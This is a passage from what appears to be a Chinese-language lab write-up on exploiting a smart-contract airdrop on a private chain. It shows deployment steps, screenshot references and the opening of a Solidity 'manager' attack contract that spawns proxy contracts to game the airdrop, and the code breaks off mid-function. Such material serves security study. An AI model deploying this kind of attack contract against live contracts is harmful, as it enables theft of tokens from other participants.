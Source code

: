 为了方便实验，我们将`airDropTracker_`设为100， 首先将靶子部署在私链上， 并确认`isjump`的值为false
![deploy_contract](Selection_030.jpg) 
![function_signature](Selection_031.png) 
![is_jump_inquire](Selection_033.png) 
然后部署我们的攻击合约
![deploy_contract](Selection_034.jpg) 
![ ](Selection_034.png)
![function_signature](Selection_036.png) 

```
contract manager {

	using SafeMath for uint;

	address[] private _proxy = new address[](100);
	uint[] private _nonce = new uint[](100);
	uint8 public seq;

	event next_address(address);
	event by_pass(bool);

	modifier isMe() { 
		require (msg.sender == 0xAaD4419199D1d67b80DE09F21D9f85d462065A79);
		_;
	}
	
	function proxy_initialization() isMe public {
		for (uint8 i = 0; i < 10; i++) {
			_proxy[seq] = new proxy();
			seq ++;
		}

```